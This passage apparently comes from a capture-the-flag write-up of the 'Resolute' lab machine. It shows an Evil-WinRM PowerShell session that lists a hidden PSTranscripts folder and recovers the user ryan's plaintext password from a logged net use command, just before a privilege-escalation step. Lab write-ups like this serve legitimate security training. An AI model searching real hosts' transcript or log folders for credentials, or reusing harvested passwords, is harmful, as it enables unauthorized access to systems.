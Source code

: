 ![Usersweb](/assets/resolute/evilroot.png)

And in this case, that’s exactly what happened: we found the **PSTranscripts** folder (a folder where PowerShell transcripts are saved, often containing valuable information). Inside, we can see Ryan's credentials in plain text.

````powershell
*Evil-WinRM* PS C:\> Get-ChildItem -Path "C:\PSTranscripts" -Recurse -force


    Directory: C:\PSTranscripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
````

## PRIVILEGE ESCALATION
---
We log in with the new user and we found a note.
